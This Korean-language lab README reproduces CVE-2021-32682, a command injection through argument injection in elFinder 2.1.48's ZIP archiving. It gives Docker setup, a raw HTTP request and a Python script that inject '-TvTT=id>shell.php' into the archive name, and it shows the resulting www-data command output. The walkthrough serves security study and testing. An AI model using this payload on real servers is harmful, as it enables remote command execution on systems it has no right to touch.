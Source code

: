 # elFinder ZIP 인자 주입 취약점으로 인한 Command Injection (CVE-2021-32682)
* elFinder는 jQuery UI 기반의 웹 오픈소스 파일 관리자입니다.
* elFinder 2.1.48 이하 버전에서 ZIP 아카이브 처리 과정 중 인자 주입 취약점이 발견되었습니다.
* 공격자는 최소한의 구성으로도 elFinder PHP Connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다.
## 환경 구성 및 실행
1. 다음 명령어로 elFinder 2.1.48을 실행합니다.
```
docker compose up -d
```
2. 서버 시작 후 elFinder의 메인 페이지를 `http://127.0.0.1:8080`에서 확인할 수 있습니다.
## 취약점 재현
취약점 재현을 위하여 먼저 두 개의 파일을 만들어야 합니다.
`1.txt` 파일을 생성합니다.

![image](https://github.com/user-attachments/assets/1602df64-885c-414d-a796-8717ba907713)

해당 파일을 ZIP 포멧으로 압축한 후, 파일 이름을 `2.zip`으로 변경합니다.

![image](https://github.com/user-attachments/assets/719dadbf-eb63-42c0-8820-692b0ea62796)

`1.txt`와 `2.zip`을 확인합니다.

<img width="182" alt="image" src="https://github.com/user-attachments/assets/76a24ab3-948c-4529-a529-35ad9d8244fa" />


다음 HTTP request를 전송합니다.
```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close

```
다음과 같은 python 코드를 통해 request를 전송할 수 있습니다.
```
import requests

url = "http://127.0.0.1:8080/#elf_l1_Lw/php/connector.minimal.php"

params = {
    "cmd": "archive",
    "name": "-TvTT=id>shell.php # a.zip",  
    "target": "l1_Lw",
    "targets[0]": "l1_MS50eHQ",  
    "targets[1]": "l1_Mi56aXA",  
    "type": "application/zip"
}

headers = {
    "Host": "127.0.0.1:8080",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "X-Requested-With": "XMLHttpRequest",
    "Referer": "http://localhost.lan:8080/",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7",
    "Connection": "close"
}

response = requests.get(url, params=params, headers=headers)
print(response.text)
```
해당 request에는 다음과 같은 정보가 포함되어 있습니다.
* `id>shell.php`로 명령어 실행 및 출력 저장.
* base64 디코딩 시 `target[0]`의 값 `MS50eHQ`는 `1.txt`, `target[1]`의 값 `Mi56aXA`는 `2.zip`.


request 전송 이후 `http://127.0.0.1:8080/#elf_l1_Lw/files/shell.php`를 입력하여 `shell.php`를 확인합니다.

![image](https://github.com/user-attachments/assets/c0efc7d8-1cd7-4cdf-9895-d008c84047a3)

`shell.php`를 열어 명령어가 실행된 결과를 확인합니다.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



